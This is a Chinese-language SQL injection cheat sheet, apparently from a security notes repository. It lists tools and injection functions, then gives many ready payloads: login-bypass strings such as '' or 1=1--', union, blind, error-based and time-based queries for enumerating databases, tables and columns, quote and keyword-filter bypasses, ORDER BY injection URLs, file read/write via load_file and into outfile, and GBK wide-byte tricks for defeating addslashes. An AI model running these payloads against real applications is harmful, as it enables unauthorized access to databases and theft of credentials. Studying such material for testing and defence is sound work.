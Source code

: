 SQL 注入
========

基本概念
--------

-  SQL 注入是一种将 SQL 代码插入或添加到应用（用户）的输入参数中，之后再讲这些参数传递给后台的 SQL 服务器加以解析并执行的攻击。
-  攻击者能够修改 SQL 语句，该进程将与执行命令的组件（如数据库服务器、应用服务器或 WEB 服务器）拥有相同的权限。
-  如果 WEB 应用开发人员无法确保在将从 WEB 表单、cookie、输入参数等收到的值传递给 SQL 查询（该查询在数据库服务器上执行）之前已经对其进行过验证，通常就会出现 SQL 注入漏洞。

常用工具
--------

-  Burp Suite：`Burp Suite 使用介绍 <http://static.hx99.net/static/drops/tools-1548.html>`_
-  Tamper Data (Firefox addon)
-  HackBar (Firefox addon)
-  sqlmap：`sqlmap 用户手册 <http://static.hx99.net/static/drops/tips-143.html>`_

注入常见参数
------------

-  ``user()``：当前数据库用户
-  ``database()``：当前数据库名
-  ``version()``：当前使用的数据库版本
-  ``@@datadir``：数据库存储数据路径
-  ``concat()``：联合数据，用于联合两条数据结果。如 ``concat(username,0x3a,password)``
-  ``group_concat()``：和 ``concat()`` 类似，如 ``group_concat(DISTINCT+user,0x3a,password)``，用于把多条数据一次注入出来
-  ``concat_ws()``：用法类似
-  ``hex()`` 和 ``unhex()``：用于 hex 编码解码
-  ``load_file()``：以文本方式读取文件，在 Windows 中，路径设置为 ``\\``
-  ``select xxoo into outfile '路径'``：权限较高时可直接写文件

语法参考与小技巧
----------------

行间注释
~~~~~~~~

-  ``--``
   
   .. code::sql

      DROP sampletable;--

-  ``#``

   .. code::sql

      DROP sampletable;#

行内注释
~~~~~~~~

-  ``/*注释内容*/``
   
   .. code:: sql

      DROP/*comment*/sampletable`   DR/**/OP/*绕过过滤*/sampletable`   SELECT/*替换空格*/password/**/FROM/**/Members

-  ``/*! MYSQL专属 */``

   .. code:: sql

      SELECT /*!32302 1/0, */ 1 FROM tablename

字符串编码
~~~~~~~~~~

-  ``ASCII()``：返回字符的 ASCII 码值
-  ``CHAR()``：把整数转换为对应的字符

后台万能密码
------------

-  ``admin' --``
-  ``admin' #``
-  ``admin'/*``
-  ``' or 1=1--``
-  ``' or 1=1#``
-  ``' or 1=1/*``
-  ``') or '1'='1--``
-  ``') or ('1'='1--``
-  以不同的用户登陆 ``' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--``

注入语句备忘
------------

数据库名
~~~~~~~~

.. code:: sql

    SELECT database();
    SELECT schema_name FROM information_schema.schemata;

表名
~~~~

-  union 查询

   .. code:: sql

      --MySQL 4版本时用version=9，MySQL 5版本时用version=10
      UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;   /* 列出当前数据库中的表 */
      UNION SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database();   /* 列出所有用户自定义数据库中的表 */
      SELECT table_schema, table_name FROM information_schema.tables WHERE table_schema!='information_schema' AND table_schema!='mysql';

-  盲注

   .. code:: sql

      AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'

-  报错

   .. code:: sql

      AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),FLOOR(RAND(0)*2))) (@:=1)||@ GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),!@) HAVING @||MIN(@:=0); AND ExtractValue(1, CONCAT(0x5c, (SELECT table_name FROM information_schema.tables LIMIT 1)));
      -- 在5.1.5版本中成功。

列名
~~~~

-  union 查询

   .. code:: sql

      UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename'

-  盲注

   .. code:: sql

      AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'

-  报错

   .. code:: sql

      -- 在5.1.5版本中成功
      AND (1,2,3) = (SELECT * FROM SOME_EXISTING_TABLE UNION SELECT 1,2,3 LIMIT 1)
      -- MySQL 5.1版本修复了
      AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),FLOOR(RAND(0)*2))) (@:=1)||@ GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),!@) HAVING @||MIN(@:=0); AND ExtractValue(1, CONCAT(0x5c, (SELECT column_name FROM information_schema.columns LIMIT 1)));

-  利用 ``PROCEDURE ANALYSE()``

   .. code:: sql

      -- 这个需要 web 展示页面有你所注入查询的一个字段
      -- 获得第一个段名
      SELECT username, permission FROM Users WHERE id = 1; 1 PROCEDURE ANALYSE()
      -- 获得第二个段名
      1 LIMIT 1,1 PROCEDURE ANALYSE()
      -- 获得第三个段名
      1 LIMIT 2,1 PROCEDURE ANALYSE()

根据列名查询所在的表
~~~~~~~~~~~~~~~~~~~~

.. code:: sql

    -- 查询字段名为 username 的表
    SELECT table_name FROM information_schema.columns WHERE column_name = 'username';
    -- 查询字段名中包含 username 的表
    SELECT table_name FROM information_schema.columns WHERE column_name LIKE '%user%';

绕过引号限制
~~~~~~~~~~~~

.. code:: sql

    -- hex 编码
    SELECT * FROM Users WHERE username = 0x61646D696E
    -- char() 函数
    SELECT * FROM Users WHERE username = CHAR(97, 100, 109, 105, 110)

绕过字符串黑名单
~~~~~~~~~~~~~~~~

.. code:: sql

    SELECT 'a' 'd' 'mi' 'n';
    SELECT CONCAT('a', 'd', 'm', 'i', 'n');
    SELECT CONCAT_WS('', 'a', 'd', 'm', 'i', 'n');
    SELECT GROUP_CONCAT('a', 'd', 'm', 'i', 'n');

使用 ``CONCAT()`` 时，任何个参数为 null，将返回 null，推荐使用 ``CONCAT_WS()``\ 。\ ``CONCAT_WS()``\ 函数第一个参数表示用哪个字符间隔所查询的结果。

条件语句
~~~~~~~~

``CASE``, ``IF()``, ``IFNULL()``, ``NULLIF()``.

.. code:: sql

    SELECT IF(1=1, true, false);
    SELECT CASE WHEN 1=1 THEN true ELSE false END;

延时函数
~~~~~~~~

``SLEEP()``, ``BENCHMARK()``.

.. code:: sql

    ' - (IF(MID(version(),1,1) LIKE 5, BENCHMARK(100000,SHA1('true')), false)) - '

order by 后的注入
~~~~~~~~~~~~~~~~~

``order by`` 由于是排序语句，所以可以利用条件语句做判断，根据返回的排序结果不同判断条件的真假。一般带有 ``order`` 或者 ``order by`` 的变量很可能是这种注入，在知道一个字段的时候可以采用如下方式注入：

原始链接：``http://www.test.com/list.php?order=vote``

根据 ``vote`` 字段排序。找到投票数最大的票数 ``num`` 然后构造以下链接：

::

    http://www.test.com/list.php?order=abs(vote-(length(user())>0)*num)+asc

看排序是否变化。还有一种方法不需要知道任何字段信息，使用 ``rand`` 函数：

::

    http://www.test.com/list.php?order=rand(true)
    http://www.test.com/list.php?order=rand(false)

以上两个会返回不同的排序，判断表名中第一个字符是否小于 128 的语句如下：

::

    http://www.test.com/list.php?order=rand((select char(substring(table_name,1,1)) from information_schema.tables limit 1)<=128))

宽字节注入
~~~~~~~~~~

国内最常使用的 GBK 编码，这种方式主要是绕过 ``addslashes`` 等对特殊字符进行转移的绕过。反斜杠 ``\`` 的十六进制为 ``%5c``\ ，在你输入 ``%bf%27`` 时，函数遇到单引号自动转移加入 ``\``，此时变为 ``%bf%5c%27``，``%bf%5c`` 在 GBK 中变为一个宽字符「縗」。``%bf`` 那个位置可以是 ``%81-%fe`` 中间的任何字符。不止在 SQL 注入中，宽字符注入在很多地方都可以应用。

参考资料
--------

-  `SQL 注入速查表 <http://static.hx99.net/static/drops/tips-7840.html>`_
-  `MySQL 注入技巧 <http://static.hx99.net/static/drops/tips-7299.html>`_
-  `MySQL 注入科普 <http://static.hx99.net/static/drops/tips-123.html>`_
-  `MySQL 注入总结 <http://www.91ri.org/4073.html>`_
-  `《SQL 注入攻击与防御》 <http://product.dangdang.com/23364650.html>`_
